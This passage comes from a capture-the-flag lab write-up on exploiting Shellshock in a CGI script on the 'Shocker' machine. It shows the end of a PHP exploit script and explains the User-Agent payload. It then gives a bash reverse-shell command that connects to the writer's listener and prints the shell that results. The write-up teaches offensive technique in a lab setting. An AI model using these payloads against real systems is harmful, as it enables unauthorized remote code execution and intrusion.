 ```php
);
$req = file_get_contents($url, false, $context);
if(!$req && strpos($http_response_header[0],"500") > 0 )
	die("Command sent to the server!\n");
else if($req && !strpos($http_response_header[0],"500") > 0)
	die("Server didn't respond as it should!\n");
else if(!$req && $http_response_header == NULL)
	die("A connection error occurred!\n")
?>
```

The exploit code is pretty straight forward: it sends an HTTP request to the web server and injects the shellshock payload `() { :;}; [YOUR SHELL COMMAND]`
via the `User-Agent` header so that it will be processed by the web server.

In Apache `mod_cgi`, HTTP headers set as environment variables. This is where the shellshock
bug comes into play. When setting an environment variable in bash like the following: `env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`, if your version
of bash is vulnerable to the shellshock bug, then the command `echo this is a test` will be executed as soon as the environment variable is set.

We can run the exploit to verify remote code execution with a blind ping towards my kali machine (10.10.14.33):

```bash
php 34766.php -u http://10.10.10.56/cgi-bin/user.sh -c "ping -c 1 10.10.14.33"
```

The ping listener on my kali machine revealed that 10.10.10.56 was able to ping it:

```bash
sudo tcpdump -i tun0 icmp
```

```
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
18:05:20.031187 IP 10.10.10.56 > 10.10.14.33: ICMP echo request, id 1600, seq 1, length 64
18:05:20.031212 IP 10.10.14.33 > 10.10.10.56: ICMP echo reply, id 1600, seq 1, length 64
```

With the following command, we can get Apache to execute a bash reverse shell which will connect back to the netcat listener on my kali machine on port 2001:

```bash
php 34766.php -u http://10.10.10.56/cgi-bin/user.sh -c "bash -i >& /dev/tcp/10.10.14.33/2001 0>&1"
```

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.56.
Ncat: Connection from 10.10.10.56:47634.
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```
